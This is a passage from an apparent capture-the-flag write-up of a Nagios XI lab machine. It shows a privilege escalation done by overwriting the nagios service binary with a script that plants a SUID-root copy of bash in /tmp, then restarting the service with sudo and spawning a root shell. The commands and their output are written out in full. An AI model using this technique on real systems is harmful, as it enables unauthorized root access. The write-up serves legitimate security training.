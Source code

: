 
I'll write a simple `bash` script to `/tmp/x.sh`:



    #!/bin/bash

    cp /bin/bash /tmp/0xdf
    chown root:root /tmp/0xdf
    chmod 6777 /tmp/0xdf



I'll copy that to `nagios`, and set the permissions so that it's
executable:



    nagios@monitored:/usr/local/nagios/bin$ cp /tmp/x.sh nagios
    nagios@monitored:/usr/local/nagios/bin$ chmod +x nagios



Now I'll restart the service:



    nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
    Job for nagios.service failed because the control process exited with error code.
    See "systemctl status nagios.service" and "journalctl -xe" for details.



It fails because this is not a valid service, but it still ran:



    nagios@monitored:/usr/local/nagios/bin$ ls -la /tmp/0xdf 
    -rwsrwsrwx 1 root root 1234376 May  9 08:33 /tmp/0xdf



I'll run with `-p` to keep privs and get a shell as root:



    nagios@monitored:/usr/local/nagios/bin$ /tmp/0xdf -p
    0xdf-5.1#



And read the root flag:



    0xdf-5.1# cat root.txt
    74cc1c60************************



### getprofile.sh

#### Understanding the Script

The script takes an "id" or folder name:


